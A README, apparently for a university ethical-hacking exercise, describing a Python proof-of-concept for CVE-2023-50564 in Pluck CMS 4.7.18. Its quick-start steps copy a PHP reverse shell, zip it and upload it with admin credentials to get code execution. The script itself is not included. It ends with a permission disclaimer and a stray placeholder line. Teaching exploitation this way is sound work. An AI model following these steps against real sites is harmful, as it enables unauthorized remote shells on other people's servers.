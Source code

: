 #+title: Readme

#+TITLE: Pluck CMS Exploitation Script
#+AUTHOR: acnimda

* TL:DR
1. Create a revshell:
   #+begin_src bash
cp /usr/share/webshells/php/php-reverse-shell.php ~/path/to/your/likings/evil.php

   #+end_src
2. zip the revshell:
   #+begin_src bash
zip exploit.zip evil.php
   #+end_src
3. run =poc.py=.
  #+BEGIN_SRC bash
  python3 poc.py --url=example.nl -u admin -p admin123
  #+END_SRC

* Introduction
This Python script is developed for educational purposes as part of an university lecture series on cybersecurity and ethical hacking. It provides a practical demonstration of how to automate the process of exploiting a known remote code execution vulnerability in =Pluck CMS version 4.7.18= and is a modified version of the original [[https://www.exploit-db.com/exploits/51592][exploit from exploit-db]].

* CVE-2023-50564
This script is based on [[https://nvd.nist.gov/vuln/detail/CVE-2023-50564][cve-2023-50564]] where an arbitrary file upload vulnerability in the component =/inc/modules_install.php= of =Pluck-CMS v4.7.18= allows attackers to execute arbitrary code via uploading an evil ZIP file.


* Dependencies
  This script requires =Python3= and the following additional modules:
  - requests: To handle HTTP requests
  - requests_toolbelt: For multipart file upload support

  You can install the required modules using pip:

  #+BEGIN_SRC shell
  pip install requests requests_toolbelt
  #+END_SRC

* Usage
  Before running the script, ensure that you have permission to test the target application.

  The script takes the following command-line arguments:
  - -u, --username : The username for the login attempt
  - -p, --password : The corresponding password
  - --url : The base URL of the target Pluck CMS instance, e.g., "hack.tb"

  To run the script, use the following command:

  #+BEGIN_SRC shell
  python3 poc.py --url=example.com -u admin -p admin123
  #+END_SRC

  Make sure to replace =example.com=, =admin=, and =admin123= with the appropriate URL and credentials for your test scenario.

* Disclaimer
  The code provided in this script is for educational purposes only. As part of our academic integrity policy and ethical conduct, it is imperative that students and practitioners use this script in a controlled, legal, and ethical manner.

  You must obtain explicit consent from the owners of any systems before running this script against them. Unauthorized use of this script may violate laws, and the author and the university disclaim any liability for misuse of this software. Instead, the aim is to educate students on the mechanisms of cybersecurity threats, defenses, and responsible disclosure practices.


* Acknowledgments
  Credit goes to all contributors and maintainers of the Pluck CMS project. The exploitation technique is based on existing research and has been adapted here for an educational setting. Students are encouraged to delve deeper into the code, understand the underlying security concepts, and contribute positively to the field of cybersecurity.

Please replace the example email and any other placeholder content with actual information relevant to your situation.
